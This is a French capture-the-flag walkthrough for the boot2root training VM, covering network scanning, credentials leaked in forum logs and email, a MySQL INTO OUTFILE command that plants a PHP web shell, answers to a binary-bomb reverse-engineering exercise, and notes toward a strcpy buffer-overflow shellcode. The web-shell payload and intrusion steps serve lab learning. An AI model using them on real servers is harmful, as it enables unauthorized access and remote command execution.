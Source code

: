 # Etape 1:
Pour récuperer l'adresse IP de la VM on lance un nmap pour scanner le réseau
```bash
nmap -A 172.16.96.1/24
```
Quand nous lancon boot2root, la vm ouvre un port https.
Avec un dirbuster nous avous a trouver que le path /forum et /webmail exist.
Dans le forum nous trouvons des logs qui nous permette de leaker le mot de passe de lmezard:!q\]Ej?*5K5cy*AJ
Avec l'email de lmezard nous arrivons a nous connecter a sa boite mail ou un mail avec les identifiant root de mysql sont present root:Fg-'kKXBj87E:aJ$
Dans mysql nous pouvont ecrire dans le system avec un commande du style OUTFILE.
Nous pouvons trouver l'arborescence de mylittleforum sur son github. Finalement il semble que le dossier templates_c soit accessible en ecriture.
On peut upload un shell avec cette command.
SELECT "<?php system($_GET['cmd']) ?>" INTO OUTFILE "/var/www/forum/templates_c/shell.php"
nous pouvons telecharger les identifiant du ftp dans /home/LOOKATME
lmezard
G!@M6f4Eatau{sF"

# Etape2:
Avec ces identifiant nous pouvont ensuite telecharger une tarball fun
Cette tarball contenait un dossier ft_fun qui conténer a son tour des fichier pcap.
Dans chaque fichier pcap il y avait un comment qui préciser l'order de ce fichier par rapport au autre. 
Une fois reconstituer ces fichier formée un code source C qui une fois compiler demander de hasher un mot de passe.
Un fois hasher, le resultat consituer le mot de passe de laurie.
laurie:330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

# Etape3:
Pour récuper le mot de passe de thor nous devons desarmorcer des bombe succésive.
Pour desamorcé la premiere phase il suffit de rentré la chaine
Public speaking is very easy.

Pour la deuxieme phase, il suffit juste de rentré une suite de nombre dont chaque element est le resultat de sa position+1 * le nombre precedent
La suite commence par 1

1 2 6 24 120 720

La troisieme phase est une fonction qui attend trois argument de type int, char, int.
Le premier int est une sousfonction qui compare le deuxieme est troisieme argument.
C'est une jump table.
Au total voici les solution:
0 q 777
1 b 214
2 b 755
3 k 251
4 o 160
5 t 458
6 v 780
7 b 524

Pour la quatrieme phase, il suffit de trouver le nombre qui quand on le rentre dans la fonction fibonacci le resultat est 55 en decimale.
Ce nombre est 9.

Pour la cinquieme phase, il faut reussit a traduire l'input saisie vers "giants" avec l'encodage suivant "isrveawhobpnutfg".
Equivalemnt a xlatb en assembler.
Le code fait juste un bitwise and sur les character. Il y a donc plusieur solution.

Pour la sixième phase, La bombe regarde d'abort si dans la sequence il n'y a pas de doublon est que les nombre sont entre 1-6.
En fonction des nombre il arrange une liste chainer dont les indice des noeuds sont egaux a ceux des nombre rentré.
Les noeuds de la link list sont comme suit:
```bash
struct Node {
	int number;
	int order;
	struct Node* next;
};
```
Il itere dans la suite pour voir les number sont en ordre décroissant. Si il le sont la bombe peux etres desamorcé ;).

```gdb
0x804b26c <node1>:      0x000000fd      0x00000001      0x0804b260
0x804b260 <node2>:      0x000002d5      0x00000002      0x0804b254
0x804b254 <node3>:      0x0000012d      0x00000003      0x0804b248
0x804b248 <node4>:      0x000003e5      0x00000004      0x0804b23c
0x804b23c <node5>:      0x000000d4      0x00000005      0x0804b230
0x804b230 <node6>:      0x000001b0      0x00000006      0x00000000
```

4 2 6 3 1 5

A noter que dans cette exercise il y a une partie cacher avec des arbre binaire.
il suffit de rajouter austinpowers a la quatrieme phase

9 austinpowers 

Le dernier exercice utilise cette arbre binaire.
Pour desamorcé la phase cache il faut rentré le nombre 1001

                         36         
              /                      \
             8                        50
         /       \                /        \
        6         22             45         107
       / \       /  \           /  \       /   \
      1   7     20   35        40   47    99   1001

Apres plusieur essaie, et une visite sur le slack qui nous informe qu'il faut swap les deux dernier character, le mot de passe est le suivant:
thor
Publicspeakingisveryeasy.126241207201b2149opekmq426135

# Etape4:
On a un fichier turtle qui donne des indications pour la librairie turtle de python.
On fait un script python pour nettoyer le fichier et on passe les instructions au module turtle.py.
Sa nous affiche un mot de passe "SLASH" sous forme de dessin que l'on doit hasher en md5
```bash
echo -n "SLASH" | md5
646da671ca01bb5d84dbb5fb2238dc8e
```

# Etape5:
Nous pouvons voir que sur la machine l'ASLR est desactivé.
```bash
cat /proc/sys/kernel/randomize_va_space -> $00
```
La stack est executable.
```bash
readelf -a exploit_me | grep GNU_STACK -> RWE
```
Le programe copy argv[1] avec strcpy. Il suffit donc de faire un shellcode sans null byte.
